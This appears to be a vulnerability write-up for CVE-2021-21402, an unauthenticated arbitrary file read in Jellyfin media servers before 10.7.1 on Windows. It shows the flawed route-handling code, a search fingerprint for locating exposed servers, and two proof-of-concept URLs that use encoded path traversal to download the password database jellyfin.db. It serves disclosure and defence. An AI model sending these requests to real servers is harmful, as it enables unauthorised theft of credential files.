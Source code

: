 # Jellyfin stream.mp3 arbitrary file reading vulnerability CVE-2021-21402

## Vulnerability Description

Jellyfin is a free software media system. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Jellyfin < 10.7.1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title='Jellyfin' || body='https://jellyfin.media'</span>

## Vulnerability reappears

Both the `/Audio/{Id}/hls/{segmentId}/stream.mp3` and `/Audio/{Id}/hls/{segmentId}/stream.aac` routes allow any file to be read on Windows. 

Path.GetExtension(Request.Path)` returns an empty extension, resulting in full control over the path of the result file. 

```java
// Can't require authentication just yet due to seeing some requests come from Chrome without full query string
// [Authenticated] // [1]
[HttpGet("Audio/{itemId}/hls/{segmentId}/stream.mp3", Name = "GetHlsAudioSegmentLegacyMp3")]
[HttpGet("Audio/{itemId}/hls/{segmentId}/stream.aac", Name = "GetHlsAudioSegmentLegacyAac")]
//...
public ActionResult GetHlsAudioSegmentLegacy([FromRoute, Required] string itemId, [FromRoute, Required] string segmentId)
{
    // TODO: Deprecate with new iOS app
    var file = segmentId + Path.GetExtension(Request.Path); //[2]
    file = Path.Combine(_serverConfigurationManager.GetTranscodePath(), file);

    return FileStreamResponseHelpers.GetStaticFileResult(file, MimeTypes.GetMimeType(file)!, false, HttpContext);
}
```



Use the following request to read the database file with the password



```plain
https://xxx.xxx.xxx.xxx /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/
```



Another code is as follows



```java
// Can't require authentication just yet due to seeing some requests come from Chrome without full query string
// [Authenticated] //[1]
[HttpGet("Videos/{itemId}/hls/{playlistId}/{segmentId}.{segmentContainer}")]
//...
public ActionResult GetHlsVideoSegmentLegacy(
    [FromRoute, Required] string itemId,
    [FromRoute, Required] string playlistId,
    [FromRoute, Required] string segmentId,
    [FromRoute, Required] string segmentContainer)
{
    var file = segmentId + Path.GetExtension(Request.Path); //[2]
    var transcodeFolderPath = _serverConfigurationManager.GetTranscodePath();

    file = Path.Combine(transcodeFolderPath, file); //[3]

    var normalizedPlaylistId = playlistId;

    var filePaths = _fileSystem.GetFilePaths(transcodeFolderPath);
    // Add . to start of segment container for future use.
    segmentContainer = segmentContainer.Insert(0, ".");
    string? playlistPath = null;
    foreach (var path in filePaths)
    {
        var pathExtension = Path.GetExtension(path);
        if ((string.Equals(pathExtension, segmentContainer, StringComparison.OrdinalIgnoreCase)
                || string.Equals(pathExtension, ".m3u8", StringComparison.OrdinalIgnoreCase)) //[4]
            && path.IndexOf(normalizedPlaylistId, StringComparison.OrdinalIgnoreCase) != -1) //[5]
        {
            playlistPath = path;
            break;
        }
    }

    return playlistPath == null
        ? NotFound("Hls segment not found.")
        : GetFileResult(file, playlistPath);
}
```

The `/Videos/{Id}/hls/{PlaylistId}/{SegmentId}.{SegmentContainer}` route allows reading of any unauthenticated files on Windows. 

The POC is as follows, download the same file

```plain
https://xxx.xxx.xxx.xxx/Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db
```


</a-alert>
<br/>
